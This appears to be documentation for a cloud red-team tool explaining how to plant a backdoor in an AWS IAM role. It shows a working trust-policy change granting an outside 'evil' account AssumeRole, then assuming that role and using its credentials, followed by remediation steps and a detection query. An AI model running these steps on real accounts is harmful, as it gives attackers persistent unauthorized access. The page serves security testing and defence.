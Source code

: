 # IAM Roles (via AssumeRole)

## Steps to Reproduce

* To expose the resource using `endgame`, run the following from the victim account:

```bash
export EVIL_PRINCIPAL=arn:aws:iam::999988887777:user/evil

endgame expose --service iam --name test-resource-exposure
```

* Alternatively, to expose the resource using the AWS CLI:

Create a file titled `Evil-Trust-Policy.json` with the following contents:

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "Endgame",
      "Effect": "Allow",
      "Principal": {
        "AWS": "arn:aws:iam::999988887777:user/evil"
      },
      "Action": "sts:AssumeRole"
    }
  ]
}
```


Apply the evil Assume Role Policy by running the following from the victim account:

```bash
aws iam update-assume-role-policy --role-name test-resource-exposure --policy-document file://Evil-Trust-Policy.json
```

* To view the contents of the Assume Role Policy that grants access to the evil user, run the following:

```bash
aws iam get-role --role-name test-resource-exposure
```

* Observe that the output of the overly permissive AssumeRolePolicy match the example shown below.

## Example

Observe that the content of the `AssumeRolePolicyDocument` key allows `sts:AssumeRole` access from the evil principal (`arn:aws:iam::999988887777:user/evil`)

```json
{
    "Role": {
        "Path": "/",
        "RoleName": "test-resource-exposure",
        "RoleId": "",
        "Arn": "arn:aws:iam::111122223333:role/test-resource-exposure",
        "CreateDate": "2021-02-13T19:21:51Z",
        "AssumeRolePolicyDocument": {
            "Version": "2012-10-17",
            "Statement": [
                {
                    "Sid": "",
                    "Effect": "Allow",
                    "Principal": {
                        "Service": "ec2.amazonaws.com"
                    },
                    "Action": "sts:AssumeRole"
                },
                {
                    "Sid": "AllowCurrentAccount",
                    "Effect": "Allow",
                    "Principal": {
                        "AWS": "arn:aws:iam::111122223333:root"
                    },
                    "Action": "sts:AssumeRole"
                },
                {
                    "Sid": "Endgame",
                    "Effect": "Allow",
                    "Principal": {
                        "AWS": "arn:aws:iam::999988887777:user/evil"
                    },
                    "Action": "sts:AssumeRole"
                }
            ]
        },
        "Tags": [
            {
                "Key": "Owner",
                "Value": "yourmom"
            }
        ],
        "RoleLastUsed": {}
    }
}
```

## Exploitation

* Set your AWS Access keys to the Evil Principal (`arn:aws:iam::999988887777:user/evil`) credentials

* Verify that you can run `sts:AssumeRole` to the victim account

```bash
aws sts assume-role --profile evil --role-arn arn:aws:iam::111122223333:role/test-resource-exposure --role-session-name HotDogsAreSandwiches
```

* The output will contain `AccessKeyId`, `SecretAccessKey`, and `SessionToken` below. Note the values.

```
{
    "Credentials": {
        "AccessKeyId": "",
        "SecretAccessKey": "",
        "SessionToken": "",
        "Expiration": "2021-02-13T21:24:46Z"
    },
    "AssumedRoleUser": {
        "AssumedRoleId": "roleid:HotDogsAreSandwiches",
        "Arn": "arn:aws:sts::111122223333:assumed-role/test-resource-exposure/HotDogsAreSandwiches"
    }
}
```

* Set those values to your AWS credentials environment variables

```bash
export AWS_ACCESS_KEY_ID=outputfromAccessKeyId
export AWS_SECRET_ACCESS_KEY=outputfromSecretAccessKey
export AWS_SESSION_TOKEN=outputfromSessionToken
```

* To validate that you are leveraging the victim's credentials, run `aws sts get-caller-identity` (this API Call is the equivalent of `whoami`)

```bash
aws sts get-caller-identity
```

* Observe that the output of the call contains the Victim Account ID under `Account`, as well as an ARN that indicates you have assumed the victim role.

```
{
    "UserId": "AROAblah:HotDogsAreSandwiches",
    "Account": "111122223333",
    "Arn": "arn:aws:sts::111122223333:assumed-role/test-resource-exposure/HotDogsAreSandwiches"
}
```

* Congratulations! You've created a backdoor role in the victim's account 😈


## Remediation

* **Trusted Accounts Only**: Ensure that IAM roles can only be assumed by trusted accounts and the trusted principals within those accounts.
* **Ensure access is necessary**: For any trusted accounts that do have access, ensure that the access is absolutely necessary.
* **AWS Access Analyzer**: Leverage AWS Access Analyzer to report on external access to Assume IAM Roles. See [the AWS Access Analyzer documentation](https://docs.aws.amazon.com/IAM/latest/UserGuide/access-analyzer-resources.html) for more details.
* **Restrict access to IAM permissions that could lead to exposure of your IAM Roles**: Tightly control access to the following IAM actions:
  - [iam:UpdateAssumeRolePolicy](https://docs.aws.amazon.com/IAM/latest/APIReference/API_UpdateAssumeRolePolicy.html): _Grants permission to update the policy that grants an IAM entity permission to assume a role_
  - [iam:GetRole](https://docs.aws.amazon.com/IAM/latest/APIReference/API_GetRole.html): _Grants permission to retrieve information about the specified role, including the role's path, GUID, ARN, and the role's trust policy_
  - [iam:ListRoles](https://docs.aws.amazon.com/IAM/latest/APIReference/API_ListRoles.html): _Grants permission to list the IAM roles that have the specified path prefix_

Also, consider using [Cloudsplaining](https://github.com/salesforce/cloudsplaining/#cloudsplaining) to identify violations of least privilege in IAM policies. This can help limit the IAM principals that have access to the actions that could perform Resource Exposure activities. See the example report [here](https://opensource.salesforce.com/cloudsplaining/)

## Basic Detection
The following CloudWatch Log Insights query will include exposure actions taken by endgame:
```
fields eventTime, eventSource, eventName, userIdentity.arn, userAgent
| filter eventSource='iam.amazonaws.com' and eventName='UpdateAssumeRolePolicy'
```

This query assumes that your CloudTrail logs are being sent to CloudWatch and that you have selected the correct log group.

## References

* [update-assume-role-policy](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/iam/update-assume-role-policy.html)
* [Learn more about IAM cross-account trust](https://docs.aws.amazon.com/IAM/latest/UserGuide/id_roles_common-scenarios_aws-accounts.html)
